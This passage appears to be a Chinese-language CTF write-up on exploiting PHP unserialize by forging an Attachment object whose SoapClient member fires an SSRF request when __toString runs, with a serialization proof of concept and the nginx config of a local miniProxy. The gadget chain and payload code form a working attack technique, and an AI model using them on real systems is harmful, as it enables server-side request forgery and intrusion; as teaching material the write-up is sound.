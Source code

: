 ```php
#filename:post.php

public function __toString() {
    $str = "<a href='{$this->url}'>".basename($this->url)."</a> ($this->mime ";
    if (!is_null($this->za)) {
        $this->za->open("../".$this->url);
        $str .= "with ".$this->za->numFiles . " Files.";
    }
    return $str. ")";
}
```

注意这里的`$this->za->open()`操作，如果我们伪造`$this->za`为`SoapClient`类的实例，在这里调用`open`函数的时候，就会触发`SoapClient`的`__call`函数，发送一次请求。

所以利用思路是，伪造`content`为`Attachment`实例，其中的`$this->za`是一个`SoapClient`实例,那么在展示`content`的时候就会触发`Attachment`的`__toString`操作，从而触发`SoapClient`的`__call`函数。

poc如下：
```php
class Attachment {
    private $url = NULL;
    private $za = NULL;
    private $mime = NULL;

    public function __construct() {
        $this->url = "test";
        $this->mime = "test"
            $this->za = new SoapClient(null,array('location' => "http://127.0.0.1:9999",
            'uri'=> "http://test-uri/"));
        }
}

$attachment = new Attachment();
echo '$serializedobject＄'.serialize($attachment);
```

![http://pic.wonderkun.cc/uploads/2019/01/2019-01-10-14-36-20.png](http://pic.wonderkun.cc/uploads/2019/01/2019-01-10-14-36-20.png)

看到发送的请求，如下:

![http://pic.wonderkun.cc/uploads/2019/01/2019-01-10-14-36-57.png](http://pic.wonderkun.cc/uploads/2019/01/2019-01-10-14-36-57.png)

### 0x4 利用miniProxy

看miniProxy的nginx配置文件:

```
server {
    listen 127.0.0.1:8080;
    access_log /var/log/nginx/proxy.log;

    if ( $request_method !~ ^(GET)$ ) {
        return 405;
    }
    root /var/www/miniProxy;
    location / {
        index index.php;

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.2-fpm.sock;
        }
    }
}
```